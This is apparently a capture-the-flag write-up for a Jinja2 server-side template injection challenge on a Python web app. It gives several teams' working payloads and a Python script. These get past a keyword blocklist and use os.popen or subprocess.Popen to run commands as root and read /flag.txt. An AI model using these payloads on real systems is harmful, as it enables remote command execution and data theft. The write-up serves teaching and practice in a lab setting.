

# The Hot Cold War

## Description

The Bank of Spain launched a new website which might holds some really secretive insights of the bank blueprint. Find a way in to find a way out.

**Target URL** : [http://3.23.94.118:9000](http://3.23.94.118:9000/)

## Solution

Browsing to the given URL we see a subscribe form.


The email value gets reflected in the response. 


This is safe against XSS vulnerability as its doing HTML encoding on the output. Looking at the response header we find that this application hosted using Python technology. 

```bash
curl http://3.23.94.118:9000/ -I
HTTP/1.1 200 OK
Server: Werkzeug/2.1.1 Python/3.9.7
Date: Wed, 13 Apr 2022 12:20:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2905
```

 We can try to test for Server Side Template Injection which is very common in Python applications. The below image can help in detecting the SSTI vulnerability. 

> Note: Image reference is taken from [PostSwigger](https://portswigger.net/web-security/server-side-template-injection) blog.



Trying `{{7*7}}` results in `49`.

```bash
curl -s "http://3.23.94.118:9000/subscribe?email=\{\{7*7\}\}" | grep '<p '
      </div><br/><center><p class="section-header">49 will now enabled to receive monthly newsletters and updates.</p>
```

Referring to [SwisskyRepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread) SSTI payloads we can try below to execute the commands and read output.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

```bash
curl -s "http://3.23.94.118:9000/subscribe?email=%7B%7B%20self._TemplateReference__context.cycler.__init__.__globals__.os.popen%28%27id%27%29.read%28%29%20%7D%7D" | grep '<p '
      </div><br/><center><p class="section-header">ah! we don&#39;t allow these characters</p>
```

It is blocking some characters. After some testing we can list the following blacklisted characters. 

```
__
classes
file
write
format
\x
application
builtins
request[request.
TemplateReference
context etc
```

We can try to form a payload by referring to [0day.work](https://0day.work/jinja2-template-injection-filter-bypasses/) blogpost. But that doesn't seem to work since this application is built using Python3 and `file` primitive doesn't exist. We have to find a work around. Taking the parameter splitting technique from the blogpost we can try to split the below working payload to bypass the blocklist.

```python
request.__class__.__mro__.last().__subclasses__().filtermap('__init__').filtermap('__globals__').filter('popen').first()
```

The below payload will work with Python3 bypassing the blocklists. 

```
{'us': '_', 'class': 'class', 'mro': 'mro', 'subclasses': 'subclasses', 'init': 'init', 'globals': 'globals', 'popen': 'popen', 'email': "{% set os = request|attr([request.args.us, request.args.us, request.args.class, request.args.us, request.args.us]|join)|attr([request.args.us, request.args.us, request.args.mro, request.args.us, request.args.us]|join)|last|attr([request.args.us, request.args.us, request.args.subclasses, request.args.us, request.args.us]|join)()|selectattr([request.args.us, request.args.us, request.args.init, request.args.us, request.args.us]|join)|map(attribute=[request.args.us, request.args.us, request.args.init, request.args.us, request.args.us]|join)|selectattr([request.args.us, request.args.us, request.args.globals, request.args.us, request.args.us]|join)|map(attribute=[request.args.us, request.args.us, request.args.globals, request.args.us, request.args.us]|join)|selectattr(request.args.popen)|first%}{{os.popen('id').read()}}"}
```

Let's encode the payload and send the request

```bash
curl -s 'http://3.23.94.118:9000/subscribe?us=_&class=class&mro=mro&subclasses=subclasses&init=init&globals=globals&popen=popen&email=%7B%25+set+os+%3D+request%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.class%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.mro%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Clast%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.subclasses%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%28%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28request.args.popen%29%7Cfirst%25%7D%7B%7Bos.popen%28%27id%27%29.read%28%29%7D%7D' | grep '<p '
      </div><br/><center><p class="section-header">uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Flag can be read from `/flag.txt`. 

```bash
curl -s 'http://3.23.94.118:9000/subscribe?us=_&class=class&mro=mro&subclasses=subclasses&init=init&globals=globals&popen=popen&email=%7B%25+set+os+%3D+request%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.class%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.mro%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Clast%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.subclasses%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%28%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28request.args.popen%29%7Cfirst%25%7D%7B%7Bos.popen%28%27cat%20%2fflag.txt%27%29.read%28%29%7D%7D' | grep '<p '
      </div><br/><center><p class="section-header">ACVCTF{t3mpl4t3s_4r3_s0_c0mpl3x_th4n_u_1m4g1n3}
```


## Other Solutions

**Hack the Gibson**

It was discovered that double underlines `__`, hex encoded values (e.g. `\x5e`) and other words are not allowed in the user input. By looking at loads of writeups for SSTI filter bypasses, the following payload was constructed:

```
{{request["_"+"_class_"+"_"]["_"+"_mro_"+"_"][3]["_"+"_subclasses_"+"_"]()[350]('cat /flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

The offset value `350` was used to call the function `subprocess.Popen`. This specific function index was discovered by iterating over all elements of the returned array of the subclasses call. 

**Zimmermans** 

We also observed that `__` (double underscore) is blacklisted character. Finally we prepared a payload which is related to RCE, in this case we are reading `/flag.txt` using `cat` command.

```
{{request['app'+'lication']['_'+'_glo'+'bals_'+'_']['_'+'_bui'+'ltins_'+'_']['_'+'_imp'+'ort_'+'_']['os'].popen('cat /flag.txt').read()}}
```

**ID-IOT**

We came across this [link](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) to helped us to create final payload below:

```
{{()|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"base","_"*2)|join)|attr(("_"*2,"subclasses","_"*2)|join)()|attr(("_"*2,"getitem","_"*2)|join)(350)('cat /flag.txt',shell=True,stdout=-1)|attr('communicate')()}}
```

**InitialShell**

This method is from [An Xun Cup 2020 official Writeup](https://xz.aliyun.com/t/8581#toc-4) What we learned , Let's go straight to the subject payload.

```
{%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22))|attr(%22\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f%22)(%22os%22)|attr(%22popen%22)(%22cat+/flag.txt%22)|attr(%22read%22)()%}
```

**European Cyber Wolves**

We came to the conclusion that a few things are being filtered. The most tricky one that we absolutely need is double underscore. We found a way to bypass it and wrote the script below:

We first need to get the classes to find out which number Popen is for us to get command execution. We can do that with the script below:

```python
import requests
from bs4 import BeautifulSoup

url = ' http://3.23.94.118:9000/subscribe?email='
get_classes = """{{''|attr(["_"*2,"class","_"*2]|join)|attr(["_"*2,"base","_"*2]|join)|attr(["_"*2,"subclasses","_"*2]|join)()}}"""
res = requests.get(url=url + get_classes)
soup = BeautifulSoup(res.text, 'html.parser')
response = soup.find_all('p', class_='section-header')
print(str(response))
```

Then run it with the syntax below to carve out the position of Popen.

```bash
python3 ssti_exploit.py|recode html..ascii|recode html..ascii|sed 's/,/\n/g'|grep -n Popen

351: <class 'subprocess.Popen'>
```

Because it counts starting from 1, we need to subtract one from 351 because the library counts from 0.

```python
payload = """{{(''|attr(["_"*2,"class","_"*2]|join)|attr(["_"*2,"base","_"*2]|join)|attr(["_"*2,"subclasses","_"*2]|join)())[350]('cat /flag.txt',shell=True,stdout=-1).communicate()}}}}"""
```

We can clean this up a bit to just get the flag if we want to.

```bash
python3 ssti_exploit.py|grep -oE 'ACVCTF{.*}' --color=none|cut -c -47
ACVCTF{t3mpl4t3s_4r3_s0_c0mpl3x_th4n_u_1m4g1n3}
```

**Titans**

SSTI can be exploited to read server-side files. But the application was blocking any payload with double underscores. Our original payload needed double underscores as shown below.

```
{{ joiner.__init__.__globals__.os.popen('id').read() }}
```

But we can bypass the use of double underscores using the array/list notation. Our final payload was as follows:

```
{{ joiner["".join(["_","_init_","_"])]["".join(["_","_globals_","_"])].os.popen('cat /flag.txt').read() }}
```

